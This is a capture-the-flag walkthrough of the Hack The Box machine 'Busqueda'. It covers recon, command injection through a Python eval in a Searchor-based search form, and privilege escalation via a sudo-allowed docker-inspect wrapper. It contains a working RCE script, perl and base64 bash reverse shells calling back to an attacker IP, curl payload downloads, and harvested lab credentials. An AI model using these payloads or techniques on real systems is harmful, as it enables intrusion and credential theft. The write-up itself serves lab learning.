Busqueda
Linux, Easy, Released 2023-04-09

INTRODUCTION
For the rest of you that have nada espanol, it turns out "busqueda" is Spanish for "search". It should be no surprise that this box is a search engine. Or rather, it is an aggregator of several search engines all in one.
Warning: This walkthrough contains many spoilers. No spoilers will be unexpected if you read the walkthrough sequentially.
BusquedaINTRODUCTIONRECONFOOTHOLDSSTI AttemptsCommand InjectionUpgrading the ShellUSER FLAGUser Enumeration (svc)ROOT FLAGCheck the Listening ServicesCredential re-use checkChecking sudo -lLESSONS LEARNEDAttackerDefender
RECON
I followed my typical first steps. I set up a directory for the box, with a nmap subdirectory. Then set $RADDR to my target machine's IP, and scanned it with my typical nmap "init" scan:
nmap -sV -sC -O -n -Pn --port-ratio 0.30 -oA nmap/30perc $RADDR My "30 percent" nmap scan: explained
-sV Version detection. Ex. if port 21 is open, attempt to guess what version of FTP is running. -sC Default script scan; shorthand for
--script=default-O Enable OS detection. Nmap makes its best guess to fingerprint the target. -n Disable DNS resolution: we don't need hostnames. Speeds up the scan greatly. -Pn Skip host discovery, which is unnecessary if we're targeting just one host. --port-ratio 0.30 Scan the top 30% most commonly used ports -oA Output results in all formats, to thenmap/init-scandirectory.I like this idea of scanning only the top 30% of ports. It saves a lot of time but finds services running on ports greater than 1000
And oddly enough, I didn't really get any results. Just a single mention of port 80 and nmap refusing to fingerprint it:

But clearly there is a webserver running, so I tried it with whatweb and cURL banner-grabbing:
xxxxxxxxxxwhatweb $RADDR && curl -IL $RADDRxhttp://10.10.11.208 [302 Found] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)]ERROR Opening: http://searcher.htb/ - no address for searcher.htbHTTP/1.1 302 FoundDate: Sat, 10 Jun 2023 21:29:45 GMTServer: Apache/2.4.52 (Ubuntu)Location: http://searcher.htb/Content-Type: text/html; charset=iso-8859-1curl: (6) Could not resolve host: searcher.htb
Ok no problem, looks like I'll just have to add it to /etc/hosts a little earlier during recon than I normally would. Also, I'd usually add the name of the box as the domain ("busqueda.htb"), but the request is being redirected to searcher.htb so I'll add that instead:
xxxxxxxxxxecho "10.10.11.208 searcher.htb" | sudo tee -a /etc/hosts☝️ I use
teeinstead of the append operator>>so that I don't accidentally blow away my/etc/hostsfile with a typo of>when I meant to write>>.
To test this, I tried putting searcher.htb into my web browser and wound up at the index page of the target.

With the new hostname in /etc/hosts, I'll try running that nmap scan again now:
xxxxxxxxxxStarting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 00:47 IDTNmap scan report for searcher.htb (10.10.11.208)Host is up (0.18s latency).PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.52| http-server-header:| Apache/2.4.52 (Ubuntu)|_ Werkzeug/2.1.2 Python/3.10.6|_http-title: SearcherWarning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed portAggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)No exact OS matches for host (test conditions non-ideal).Network Distance: 2 hopsService Info: Host: searcher.htbOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 17.50 seconds
xxxxxxxxxxWLIST=/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txtffuf -w $WLIST:FUZZ -u http://$RADDR:80/ -H 'Host: FUZZ.htb'
... let that run for a few seconds, realize that all results are false-positives - each with 18 words. Do the same search but filter out that size of page. And just to be sure, use a larger wordlist but run twice as many threads, and follow redirects too:
xxxxxxxxxxWLIST=/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txtffuf -w $WLIST:FUZZ -u http://$RADDR:80/ -H 'Host: FUZZ.htb' -fw 18 -t 80 -r
... Yes still a LOT of false-positives. To see what's going on, a simple cURL with the location (with redirect) header is enough:
(virus.htb was one of the false-positives found from the previous
ffuf.)
xxxxxxxxxxcurl $RADDR -L https://virus.htb
OK, that's fine: I don't think I'll find anything interesting through just subdomain or vhost enumeration. Time to change strategies.
FOOTHOLD
SSTI Attempts
I noticed at the bottom of the page, the line "Powered by Flask and Searchor 2.4.0". In a few other CTF boxes, Flask implementations have been susceptible to SSTI attacks. When you submit a search on this page, the search string gets reflected on the resulting page: the idea here is to try various inputs containing an expression, and see if the template engine reflects the value you sent, or parses the value and reflects the result of the expression:

Nope, following this flowchart landed me in the Not vulnerable box.
One notable result though: the search fails to evaluate if the query string contains singlequotes.
Command Injection
So how about Searchor? What's it all about? Thankfully, it's an open-source search tool, so we can easily check the github page to see how it is configured and used. More importantly, it gives some hints as to how the code may be running server-side. For example, a wikipedia search:
xxxxxxxxxxfrom searchor import Engine
print(Engine.Wikipedia.search("Hello, World!"))Interesting. If this "Searcher" search engine aggregator was poorly implemented, it may attempt to use an expression like the following:
xxxxxxxxxxprint(Engine.Untrusted_user_input.search("Hello, World!"))
To gather some evidence on this idea, I'll catch the form POST using Burp proxy, and try changing out the value of which search engine to use. Here, I've changed StackOverflow to HeapOverflow:
xxxxxxxxxxPOST /search HTTP/1.1Host: searcher.htbUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedContent-Length: 47Origin: http://searcher.htbDNT: 1Connection: closeReferer: http://searcher.htb/Upgrade-Insecure-Requests: 1Sec-GPC: 1engine=HeapOverflow&query=chatgpt+took+mer+jerb
Unfortunately, it was caught by the application:

Let's try testing the search string instead. Since there is no reasonable way to restrict what a user searches, it probably has fewer restrictions. For reference, this is how the web app responds to a typical search:

We already know that the system is responding weirdly to a singlequote, so I'll start there:
xxxxxxxxxxengine=StackOverflow&query=test'
Response:
xxxxxxxxxx[this space is intentionally left blank]
🤔 Perhaps some kind of parsing error. We know it's being parsed in python, so let's pop in a comment character to end the line:
xxxxxxxxxxengine=StackOverflow&query=test'#
Response:
xxxxxxxxxx[this space is intentionally left blank]
Same result. There's a good chance that the comment character '#' is ending the expression prematurely. Let's try adding closing parentheses, one by one, before the comment character and see if the expression changes:

😮 OK, This might mean something! Not only do we get a result, but this shows that the expression is properly terminated by using one singlequote and a closing parenthesis. Since this is python, we can use the concatenation operator '+' to see what we can tack-on to the expression (either before or after the closing parenthesis):

That didn't work. But also, it was unlikely that would work due to character encoding. I'll try URL-encoding the text between the ')' and the '#' (URL-encode special chars only):

😁 Alright! Now we've got something! Since we're able to include an extra string, it makes sense that we should be able to include anything that evaluates to a string. So, using python, what takes a string as input and evaluates to a string? Something like str(eval('input')) is as close as it gets:
xxxxxxxxxxengine=Wikipedia&query=test')+str(eval('7*7'))#
Or, URL-encoding the special characters:

This seems like we're getting closer. It's now evaluating an expression and returning the result, much like the attempts at an SSTI from earlier. How about importing a module and running something? To try this out, I'll use the URL-encoded version of something like this: import subprocess; subprocess.call("id"):

That didn't seem to work. I also tried things like escaping the doublequote characters, but still no success. To see what was going on, I tried putting the same thing into a python interpreter on my attacker machine:

Ah, I see. So this wasn't valid to begin with. Of course it didn't work when trying to execute it within the webapp. Suspecting that it's something to do with the semicolon, I tried rephrasing this code from an imperative style into a functional style:
xxxxxxxxxximport subprocess; subprocess.call("id")...turns into...
xxxxxxxxxx__import__("subprocess").call("id")And it was actually successful:

Trying out this idea in Burp:

Wonderful! Now that I know a simple id command works, I've written the idea into a short python script:
xxxxxxxxxx#!/usr/bin/python3
import requestsfrom urllib.parse import quote url = 'http://searcher.htb/search'debugMode = False
host = url[7:str.find(url[7:],'/')+7]referrer = url[:str.find(url[7:],'/')+8]
headers = { 'Host': host, 'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0', 'Content-Type': 'application/x-www-form-urlencoded', 'Referer': referrer,}
def getResponse(qry): formData = f'engine=Wikipedia&query=\'){qry}#' if debugMode: print(formData) response = requests.post('http://searcher.htb/search', headers=headers, data=formData, verify=False) return f'[{response.status_code}] {response.text}' def argsToArray(args): if len(args.split()) == 1: return f'"{args}"' s = '[' for a in args.split(): s += f'"{a}",' s = s[:-1] + ']' return s
print(f'POSTing to {url}...')print('Enter commands at the prompt. Type "exit" or leave blank to quit.')
while True: try: s = input(">> ") if s == "exit" or not s: print('exiting...') break args = argsToArray(s) urlEncoded=quote(f'+str(eval(\'__import__("subprocess").call({args})\'))') print(getResponse(urlEncoded)) except: breakWhile this script seems to handle most commands, there are some things that it seems like it can't accomplish. Unfortunately, my attempts to get a reverse shell working directly through this RCE script were unsuccessful.
I tried many kinds of reverse shells: netcat, bash, python3, perl. None worked directly.
Edit: I later discovered the problem. It was a matter of encoding. Consider using base-64 encoding for a traditional bash reverse shell here. Or proceed with this walkthrough to see how I got past this issue by transferring a perl script and running it locally via my RCE.
I finally created a reverse shell by doing the following:
On my attacker machine, stand up a python webserver.
Within that webserver, create a new file containing a perl reverse shell. Call the file
revshell.pl:xxxxxxxxxxuse ;$i="10.10.14.11";$p=4444;socket(,,,getprotobyname("tcp"));if(connect(,($p,($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};Also on my attacker machine, set a new firewall rule for connections (from the target) on port 4444. Set up a netcat listener on port 4444.
Using the python script / RCE and the local copy of
curl, download the perl reverse shell to the target machine. Download the file into/home/svc/rshell.plxxxxxxxxxxcurl 10.10.14.11:8000/rshell.pl -o /home/svc/rshell.plRun the downloaded perl script. You should now have a reverse shell: 
Upgrading the Shell
I originally learned this procedure from this blog post. It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this.
Starting with the "dumb" shell, change from sh to bash:
xxxxxxxxxxpython3 -c 'import pty; pty.spawn("/bin/bash")'You'll have a better prompt now, but still no tab completion and still no ability to use things like
lessorvi. Let's fix that:
xxxxxxxxxx[ctrl+z]stty raw -echofg [enter] [enter]export TERM=xterm256-colorThe shell will be backgrounded, then enable echo mode with stty, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours 🌈.
USER FLAG
User Enumeration (svc)
Run
id. Find out what groups this user is in. Locate the user within/etc/passwdif possible; see if they have a shell and/orhomedirectory.xxxxxxxxxxid && cat /etc/passwd | grep -v nologin | grep -v /bin/falseRun
env. Find out if any interesting environment variables are set. Check the PATHxxxxxxxxxxenvCheck if the user can sudo. (Usually you'll need SSH access for this, not just a reverse shell.)
xxxxxxxxxxsudo -lCheck locations that are writable by the user or its group
xxxxxxxxxxfind / -user [username] 2>/dev/nullfind / -group [groupname] 2>/dev/nullDoes the user already have any useful tools?
xxxxxxxxxxwhich nc netcat socat curl wget python python2 python3 perl phpCheck for any active and listening sockets
xxxxxxxxxxnetstat -tulpn | grep LISTEN☝️ also try
netstat -antpDoes the user have anything in cron?
xxxxxxxxxxcrontab -lDoes the system or root have anything in cron?
xxxxxxxxxxcat /etc/crontabls -laR /etc/cron*Find any SUID or SGID executables that are accessible by the user
xxxxxxxxxxfind / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null | grep -v '/proc'Download the toolbox (not covered in-depth here).
My toolbox includes linpeas, linenum, pspy, and chisel.
Since HTB boxes are not connected to the internet, I usually get my tools onto the target box by standing up a python webserver and using any available tool (nc, wget, or curl) to download the tools from my attacker machine onto the target box. I also use this webserver for moving exploit code from my attacker box onto the target.
I've prepared a small toolbox for myself, including a short index.html page, that is generally applicable for any CTF box. I suggest any reader of this walkthough does the same.
Run pspy and take a look at any running processes. Since pspy is closed with
ctrl+c, and your reverse shell may not be fully interactive, it is best to run this on a timeout:xxxxxxxxxxtimeout 2m ./pspyRun pre-scripted enumeration tools, such as LinEnum or linpeas
xxxxxxxxxx./LinEnum.sh./linpeas.sh -w
Notable results from the foothold strategy included the following:
(1) Showed that the only user with a home directory is svc.
(2) Checking
envhinted at something calledpm2that might have root access and is acting as a manager ofsearcher.htb:xxxxxxxxxx...PIDFILE=/root/.pm2/pm2.pid...PM2_USAGE=CLIexec_interpreter=python3PM2_HOME=/root/.pm2...pm_pid_path=/root/.pm2/pids/app-0.pid...pm_err_log_path=/root/.pm2/logs/app-error.log...pm_exec_path=/var/www/app/app.py...pm_out_log_path=/root/.pm2/logs/app-out.log...(3) Cannot run
sudo -lin this reverse shell.(5) Was already performed prior to getting reverse shell, but revealed that
nc,netcat,curl,wget,python3andperlare all present.(6) Revealed quite a few listening processes that did not appear during enumeration:
xxxxxxxxxxActive Internet connections (only servers)Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program nametcp 0 0 127.0.0.1:5000 0.0.0.0:* LISTEN 1612/python3tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN -tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -tcp 0 0 127.0.0.1:222 0.0.0.0:* LISTEN -tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -tcp 0 0 127.0.0.1:35085 0.0.0.0:* LISTEN -tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -tcp6 0 0 :::80 :::* LISTEN -tcp6 0 0 :::22 :::* LISTEN -udp 0 0 127.0.0.53:53 0.0.0.0:* -udp 0 0 0.0.0.0:68 0.0.0.0:* -(9) showed an SUID binary I have not seen before. May or may not be important:
xxxxxxxxxx-rwxr-sr-x 1 root tty 22912 Feb 21 2022 /usr/bin/write.ul(11) Linpeas found some possible credentials:
 and LinEnum found that this
and LinEnum found that this pm2thing is probably running in Docker:xxxxxxxxxx[-] Anything juicy in docker-compose.yml:-rw-r--r-- 1 root root 477 Jun 15 2022 /usr/local/lib/node_modules/pm2/node_modules/@pm2/io/docker-compose.yml
While running pspy, I caught somebody else in the act of setting up a reverse shell. I thought this was method was clever, and probably would have saved me a lot of time:
xxxxxxxxxxsh -c echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNC85MDAxIDA+JjEn|base64 -d|bash -iAnd it looked like they had used this reverse shell directly from the website:
xxxxxxxxxxCMD: UID=1000 PID=145357/usr/bin/python3 /usr/local/bin/searchor search Google ',__import__('os').system('echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNC85MDAxIDA+JjEn|base64 -d|bash -i')) # junky comment
Now that I've taken a look at the what the svc user can do, it's probably time to just grab the user flag. We already know that svc is the only user with a home directory, so simply cat out the flag:
xxxxxxxxxxcat /home/svc/user.txt
ROOT FLAG
Check the Listening Services
The information found using netstat seemed to be the most promising. To investigate, I used curl to check what was on ports 5000 and 3000.
Port 5000 appeared to just be the page for searcher.htb, as seen before. However, port 3000 was that gittea thing we saw earlier!

This shows there is a subdomain: gitea.searcher.htb. I added this to my attacker box's /etc/hosts and tried loading the page:

I had never heard of gitea, so clicked the link at the bottom of the page, to go read the open source documentation. As the banner states, gitea is a self-hosted Git service. It seems like a drop-in replacement for many other git services. As such, there's a really good chance that, like github, packages using gitea likely also use a .git directory.
To investigate, I did a quick search for any .git directories that svc has access to on the box:
xxxxxxxxxxfind / -name "*.git" -d 2>/dev/nullxxxxxxxxxx/var/www/app/.git/opt/scripts/.git
😱 Oh no... how could I have been so ignorant?! When I initially got RCE (and also when I got a reverse shell), I forgot to use ls -la to check my current directory! There was a hidden .git directory in /var/www/app that I completely missed!

Discovered credentials: cody / jh1usoih2bkjaspwe92
These credentials were a valid login for http://gitea.searcher.htb

Unfortunately, there does not seem to be any useful info inside this gitea repo. There has only been one commit, so no info to be gleaned from changes to the code or secrets leftover from development. Also, under the user settings for cody, there is no security info and no GPG keys have been added.
🤔 It's unlikely this gitea thing was just a distraction. I'll keep these credentials in mind and investigate credential re-use later. For now, there are other listening ports to check out: 222, 35085, and of course 68 (probably DHCP), 3306 (probably mysql), and 22 (SSH)

Apparently tcp port 222 is a common port to run an alternate SSH service on, when 22 is already in use. That looks like exactly what is happening here.
Just to be thorough, I also took a look at the directory /etc/ssh. The config file sshd_config seemed pretty normal, and password authentication is allowed. Also I took a peek at the public keys; this is the rsa one:
xxxxxxxxxxsvc@busqueda:/etc/ssh$ cat ssh_host_rsa_key.pubssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCe8y5sUqGeBfItXUpK9zopNgmK3NvvzxvQyCmZoZslEaSLAd+oaxKoBuRlVgGTO0JQDaTZndWGKmMafT3Yh0SOsEujh6NIWhyXEGMXbs59zUcyYwEf/8wJ3KEJ0vaG8h0UjmrcqyiWjNZrt1nRGoEQQx5nyM0a+Wp+EbHuhJR1QccY1XSyLf6rgWw2n58j/oZcxakUbtSpoQeoWYmvf+n/AyWcaGsmsbl/xGOXT05pBJMxXRP5eyd8RgNtCYJhI/QjVrcrOgvRig9arVl775vpkR6yeFaXIpCSTt6nRBB3fNMY7Dy1PvHfoACiG394nCd55W3FV+RW32mlcNoxu3NIpKCONQbuhhjFDLsUtDMi2Nbl80t2wDFx0QJggVNwofyKcYOpXDjqDuQdtgP8XeS5mKSjPwt0gnyq44jsHT4eEsQIMbCVvHBAlsGRkUYgLKzxCdy1lOJIFQ18gbqgky+AeclieqNEtbcxuqP9IoihiG6gouhy/1EQfXNK6j0LzeU= root@graph
TCP Port 35085 seems to also be using http, but there is no redirect and I'm not sure yet what page it's hosting.

Checking /etc/hosts didn't provide any insight either:
xxxxxxxxxxsvc@busqueda:/var/www/app$ cat /etc/hosts127.0.0.1 localhost127.0.1.1 busqueda searcher.htb gitea.searcher.htb
Credential re-use check
Checked the following credentials:
- cody / jh1usoih2bkjaspwe92
- administrator / jh1usoih2bkjaspwe92
- svc / jh1usoih2bkjaspwe92
- root / jh1usoih2bkjaspwe92
- all of the above usernames with their usernames as their passwords as well, ex: svc / svc
TCP port 222
 --> Nope
--> Nope
MySQL (port 3306)
 --> Nope (other credential attempts are not shown here)
--> Nope (other credential attempts are not shown here)
SSH (port 22)
 --> 🎉 Success! We now know that a valid SSH credential is svc / jh1usoih2bkjaspwe92.
--> 🎉 Success! We now know that a valid SSH credential is svc / jh1usoih2bkjaspwe92.
Checking sudo -l
Now that I'm using SSH, not the reverse shell, I can check sudo -l, which often has big hints for privilege escalation:
xxxxxxxxxxsudo -lxxxxxxxxxxMatching Defaults entries for svc on busqueda:env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_ptyUser svc may run the following commands on busqueda:(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
🤔 Reviewing my notes, it looks
/opt/scriptswas also one of the directories containing a.gitdirectory.
Alright, let's try it out then:

😑 Oh, woops. Take a careful look at the last line of the output of sudo -l. There is an asterisk following the command. This means that I'll need some args:

docker ps and docker inspect are commands for usage in Docker. full-checkup doesn't seem to really do anything.

Running system-checkup.py docker-ps seems to just run the regular docker ps. It doesn't take any arguments.
On the other hand, system-checkup.py docker-inspect is a little different than docker inspect. For reference, this is the official documentation on docker inspect. It seems that the developer on this box intended docker-inspect to be a pass-through for docker inspect but only expose the format -f --format option:

Trying out the command using one of the example formats from the documentation confirms this suspicion:

I found an article showing how to use the format string in a slightly more advanced way than the official documentation describes. It has one example that loops through the container's arguments:
xxxxxxxxxxdocker container inspect -f '{{printf "%s " .Path}}{{range .Args}}{{printf "%s " .}}{{end}}' [container_name|id]
It looks like this uses dot notation grab tags from some kind of hierarchical data structure. I realized you can dump everything about the container by simply omitting the tags such as Path or Args, instead by iterating through the root of the data structure "." :
xxxxxxxxxxsudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea
😮 Whoa! I can already see that there is some juicy stuff in there. But it's a bit hard to look at...
Thankfully, the 'json' part of the format string worked, so it shouldn't be difficult to clean up. I ran it through this online JS beautifier to see it in a more legible format: (I've omitted the majority of it, so that the important stuff is visible).
This is the dump from gitea:
xxxxxxxxxx{"Id": "960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb",..."Config": {..."StdinOnce": false,"Env": ["USER_UID=115", "USER_GID=121", "GITEA__database__DB_TYPE=mysql", "GITEA__database__HOST=db:3306", "GITEA__database__NAME=gitea", "GITEA__database__USER=gitea", "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh", "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "USER=git", "GITEA_CUSTOM=/data/gitea"],...},"NetworkSettings": {..."Ports": {"22/tcp": [{"HostIp": "127.0.0.1","HostPort": "222"}],"3000/tcp": [{"HostIp": "127.0.0.1","HostPort": "3000"}]},...}}
The reveals a mysql database credential: gitea / yuiu1hoiu4i5ho1uh
And this is the dump from mysql_db:
